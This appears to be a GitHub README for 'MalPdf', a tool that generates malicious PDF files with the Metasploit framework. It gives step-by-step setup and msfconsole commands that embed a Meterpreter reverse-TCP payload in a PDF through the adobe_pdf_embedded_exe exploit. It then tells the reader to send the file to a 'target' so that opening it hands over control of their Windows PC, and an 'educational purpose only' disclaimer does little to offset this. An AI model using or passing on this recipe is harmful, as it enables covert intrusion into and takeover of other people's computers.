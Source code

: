 # MalPdf

This is an easy to setup malicious pdf generator which uses metasploit framework.

##This works only with Linux##

This can exploit only windows
Requirements:
      1Gb data
      1Gb storage space

#This is not for exploiting other's PCs and this is for educational purpose only
First start your command prompt or power shell

Type the command:

$apt install git

$git clone https://github.com/Nicko15/MalPdf.git

$cd MalPdf


Now run the 'setup.sh' file by typing:

$./setup.sh

All the needed packages and frameworks will be downloaded

Now to create malicious pdf and use, type

$cd metasploit-framework

$msfconsole
sudo bash create.sh
use exploit/windows/fileformat/adobe_pdf_embedded_exe
set payload windows/meterpreter/reverse_tcp
set FILENAME malfile.pdf
set LPORT 4444
show options
show info
run
exit
cd ..


 You will get a file path and you can shere the file to your target

To listen to the pdf, type:


Replace <your_ip> with your ip address
Now your pc will start listening. As soon as your target opens the pdf, you will get access over his pc
